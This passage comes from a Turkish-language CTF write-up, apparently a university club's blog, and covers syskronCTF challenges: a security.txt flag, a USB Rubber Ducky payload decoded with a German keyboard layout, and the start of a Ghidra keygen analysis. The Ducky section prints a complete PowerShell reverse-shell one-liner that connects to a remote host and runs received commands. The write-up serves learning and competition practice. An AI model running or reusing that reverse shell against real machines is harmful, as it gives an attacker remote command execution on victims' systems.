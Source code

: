 ![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Tuesday/security-txt_3.png)

Flag : `syskronCTF{Wh0-put3-flag3-1nto-0penPGP-key3???}`


# HID 
**(300) # Wednesday ~binary-analysis**  
**Soru:**  [inject.bin]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/inject.bin)

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/hid_1.png)

Bunun usb rubberducky ile alakalı olduğunu düşündük. Bu yüzden [ducktoolkit](https://ducktoolkit.com/decode#) 
sitesinde verilen binary dosyasını Almanca klavye düzeninde decode ettik. 

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/hid_2.png)

Çıkan sonuçta bir [pastebin linki ](https://pastebin.com/raw/ZRD8jsvd) vardı. 
Eğer Almanca klavye düzeninde yapmazsanız bu link yanlış oluyordu.

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/hid_3.png)

Flag pastebin linkinde idi.
~~~
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10syskronCTF{y0u_f0und_m3}",80);$stream = $client.GetStream();[byte[)$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
~~~

Flag : `syskronCTF{y0u_f0und_m3}`


# Key generator 
**(300) # Wednesday ~reverse-engineering**  
**Soru:** [keygen]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/keygen)

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/key-generator_1.png)

Bize verilen dosya 64 bit ELF dosyası idi.

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/key-generator_2.png)

Aşağıdaki resim gibi çalışıyordu, bizden input istiyor ve bize key oluşturuyordu.

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/Key generator.png)


Incelemek için ghidra ile açtık, `genserial` fonksiyonunda girilen inputun  `0x6c61736b612121` olup olmadığı kontrol ediliyordu.
Eğer oysa `octal` fonksiyonu çağrılıyordu.
